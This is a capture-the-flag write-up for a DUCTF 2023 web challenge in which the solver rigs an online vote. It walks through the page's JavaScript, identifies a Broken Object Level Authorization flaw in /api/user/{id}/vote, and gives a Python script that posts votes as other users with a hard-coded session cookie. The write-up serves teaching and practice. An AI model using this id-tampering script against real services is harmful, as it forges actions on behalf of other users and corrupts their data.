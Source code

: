 # Vote

## Challenge

* Upon opening the challenge link, you are given a siup/signin portal.
* After successfully signing in, you will be shown the following Vote Page:
  [![Vote Page](writeup-images/after-signin.png)]()
* You are allowed to cast only one vote. You can't change the vote after been casted.

Find the flag.

## Solution

**Observation**

* Upon successful authentication of a new participant, the vote status will always be the same. (`Abdullah: 9` and `Mahdmud: 1`)
* We got the last vote to cast. "Abdullah" wins the election irrespective of which person we vote.
* There's a hint: `Do the Impossible`

So, we need to somehow make "Mahmud" win the election.

The website doesn't have any other functionalities. Thus, our primary focus would be to inspect the frontend code. From the script portion of the `vote.html` we get the following:

```javascript
<script>
    const abdullahRow = document.getElementById('abdullah-row');
    const mahmudRow = document.getElementById('mahmud-row');
    const abdullahVotesSpan = document.getElementById('abdullah-votes');
    const mahmudVotesSpan = document.getElementById('mahmud-votes');

  // Function to handle signout
  async function signout() {
    try {
      const response = await fetch('/api/signout', {
        method: 'GET',
        headers: {
          'Content-Type': 'application/json',
          credentials: 'include', // Include session credentials for authenticated requests
        },
      });

      const data = await response.json();

      if (response.ok) {
        alert(data.message);
        window.location.href = '/signin.html'; // Redirect to the signin page after signout
      } else {
        alert(data.error || 'Error during signout');
      }
    } catch (error) {
      console.error('Error during signout:', error);
      alert('An unexpected error occurred during signout');
    }
  }

    // Function to make API requests
    async function makeRequest(url, method, data) {
      try {
        const response = await fetch(url, {
          method,
          headers: {
            'Content-Type': 'application/json',
            // Include session credentials for authenticated requests
            credentials: 'include',
          },
          body: JSON.stringify(data),
        });
        return response.json();
      } catch (error) {
        console.error('Error:', error);
      }
    }

    function displayResults(abdullahVotes, mahmudVotes, flag) {
    const resultMessage = document.getElementById('result-message');

    if (abdullahVotes > mahmudVotes) {
      resultMessage.textContent = "Abdullah Won! No Flag For You!";
    } else if (mahmudVotes > abdullahVotes) {
        resultMessage.textContent = "Mahmud Won!\nCongratulations!\n" + flag;
    } else {
      resultMessage.textContent = "It's a tie!";
    }
  }
    // Function to update vote counts and show/hide vote buttons
    async function getVoteCounts() {
      const response = await makeRequest('/api/votes', 'GET');
      if (response.ok) {
        const abdullahVotes = response.vote_status.filter(vote => vote === 'Abdullah').length;
        const mahmudVotes = response.vote_status.filter(vote => vote === 'Mahmud').length;

        abdullahVotesSpan.textContent = abdullahVotes;
        mahmudVotesSpan.textContent = mahmudVotes;

        if(response.vote_status[0] !== null) {
          document.getElementById('abdullah-btn').disabled = true;
          document.getElementById('mahmud-btn').disabled = true;
          displayResults(abdullahVotes, mahmudVotes, response.flag);
        }
        else {
            document.getElementById('result-message').textContent = "";
        }
      }
    }

    getVoteCounts();

    // Vote button click event for Abdullah
    document.getElementById('abdullah-btn').addEventListener('click', async () => {
      const response = await makeRequest('/api/user/1/vote', 'POST', { value: 'Abdullah' });
      if (response.ok) {
        alert(response.message);
        getVoteCounts();
      } else {
        alert(response.error);
      }
    });

    // Vote button click event for Mahmud
    document.getElementById('mahmud-btn').addEventListener('click', async () => {
      const response = await makeRequest('/api/user/1/vote', 'POST', { value: 'Mahmud' });
      if (response.ok) {
        alert(response.message);
        getVoteCounts();
      } else {
        alert(response.error);
      }
    });
</script>
```

After analyzing the code, the highlights are the 3 API calls that are being made:

* `/api/signout` - Sign Out
* `/api/votes` - Gets Vote Status (who got how many votes)
* `/api/user/1/vote` - Casts a vote

It's apparent that we will have to do something with the 3rd one (`/api/user/1/vote`) to make "Mahmud" win the election. Somehow use the API to make multiple votes for "Mahmud" so that his vote counts get greater than the vote count of "Abdullah".

Now, let's analyze this API (`/api/user/1/vote`) even more.

```javascript
    // Function to make API requests
    async function makeRequest(url, method, data) {
      try {
        const response = await fetch(url, {
          method,
          headers: {
            'Content-Type': 'application/json',
            // Include session credentials for authenticated requests
            credentials: 'include',
          },
          body: JSON.stringify(data),
        });
        return response.json();
      } catch (error) {
        console.error('Error:', error);
      }
    }

    // Vote button click event for Abdullah
    document.getElementById('abdullah-btn').addEventListener('click', async () => {
      const response = await makeRequest('/api/user/1/vote', 'POST', { value: 'Abdullah' });
      if (response.ok) {
        alert(response.message);
        getVoteCounts();
      } else {
        alert(response.error);
      }
    });

    // Vote button click event for Mahmud
    document.getElementById('mahmud-btn').addEventListener('click', async () => {
      const response = await makeRequest('/api/user/1/vote', 'POST', { value: 'Mahmud' });
      if (response.ok) {
        alert(response.message);
        getVoteCounts();
      } else {
        alert(response.error);
      }
    });
```

We understand the following:

* `/api/user/1/vote` the API path indicates that, this endpoint might be susceptible to a very famous API vulnerability called [BOLA](https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/) (Broken Object Level Authorization). We can just change the user id from `1` to any other numbers and try to cast a vote on behalf of that user.
* `value: 'Mahmud'` or `value: 'Abdullah'` is sent in the request body to indicate who we are casting our vote to.

So, we need to do the following:

* Send request to: `/api/user/{id}/vote` (id from 1 to 10)
* Request Body: `{value: 'Mahmud'}`

That way we will be able to alter the already casted votes. And make the vote count of "Mahmud" greater than the vote count of "Abdullah". Basically, if the vote count of "Mahmud" reaches `6`, he should win the election as there are total `10` votes.

We can send those requests using various tools.

* [Postman](https://www.postman.com/)

  [![Postman Request Headers](writeup-images/postman1.png)]()
  [![Postman Request Body](writeup-images/postman2.png)]()
* [Burp Suite](https://portswigger.net/burp)

Or, we can just write a `python` script like **Azwad (winner of ductf-2023)**.

```python
import requests
import json

body = { 'value': 'Mahmud'}
headers = {
    'Cookie': 'connect.sid=s%3A3Sa0wLY2NbEABgajsS2sAoDDm3CmUiql.uPZenyg%2FD%2BOmZSY7JCfpA%2FrHpnogNPvAjw1Pc9KwbDw',
    'Content-Type': 'application/json'
}

for i in range(1, 8):
    url = 'https://vote.ductf.com/api/user/'+ str(i) + '/vote'
    response = requests.post(url, data=json.dumps(body), headers=headers)
    if response.status_code == 200:
        print('Request was successful.')
    else:
        print(f'Request failed with status code {response.status_code}.')

```

After that, reloading the Vote page will give us the flag as we've successfully did the impossible (making Mahmud won the election).

Our apporach was successful. The website was indeed vulnerable to [Broken Object Level Authorization](https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/).

[![FLAG Obtained](writeup-images/flag.png)]()
Finally, we get the flag: `duCTF{80LA_1$_A$_DANG3R0U$_A$_380LA}`
